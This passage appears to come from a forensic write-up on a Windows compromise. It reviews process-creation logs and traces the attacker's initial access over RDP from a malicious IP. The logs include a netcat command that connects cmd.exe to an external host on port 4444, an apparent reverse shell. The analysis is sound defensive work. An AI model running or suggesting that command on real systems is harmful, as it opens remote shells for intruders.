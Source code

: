 ```powershell
2021-09-05T12:52:20.4110984+00:00, 1, nc, "C:\Windows\System32\cmd.exe"
2021-09-05T12:55:30.3393755+00:00, 1, nc -w 3 3.16.42.241 4444, "C:\Windows\System32\cmd.exe"
2021-09-05T12:56:49.8580724+00:00, 1, C:\Windows\system32\TSTheme.exe -Embedding, C:\Windows\system32\svchost.exe -k DcomLaunch -p
2021-09-05T12:56:50.0053729+00:00, 1, taskhostw.exe KEYROAMING, C:\Windows\system32\svchost.exe -k netsvcs -p -s Schedule
2021-09-05T13:16:40.2815248+00:00, 1, C:\Windows\System32\rundll32.exe shell32.dll,SHCreateLocalServerRunDll {9BA05972-F6A8-11CF-A442-00A0C90A8F39} -Embedding, C:\Windows\system32\svchost.exe -k DcomLaunch -p
```

We've struck a veritable goldmine within the trove of logged activities. The script's output has laid bare a series of actions that are most likely the handiwork of the attacker. This wealth of information provides us with a clearer picture of the tactics employed, tools used, and perhaps even the intent behind the attack. Now for a little while It's time to shift our focus toward unraveling the mystery of Initial Access.

### Initial Access

If the logs are not deleted by the attacker, we can determine the successful/unsuccessful login attempts from the log sources below:

- Windows Security Logs
- Microsoft-Windows-Terminal-Services-RemoteConnectionManager
- Microsoft-Windows-TerminalServices-LocalSessionManager
- Sysmon Operational

Let's look into the RDP connections. Here, we can search for the previously found malicious IP address **`3.16.42.241`** because we are looking for initial access. 

You might wonder why we began by investigating RDP connections as the starting point for Initial Access. When we previously encountered the 'endpoint.ps1' script in the process creation event, the TerminalSessionId was identified as 2. This observation led us to conclude that the process was spawned within an RDP session, forming the basis for our Initial Access investigation. Now, let's continue where we left off and delve deeper into our analysis.

As seen in the event, the hacker has accessed the system via an RDP connection.

![Untitled](/assets/img/analyzing-suspicious-powershell-execution/Untitled10.png)

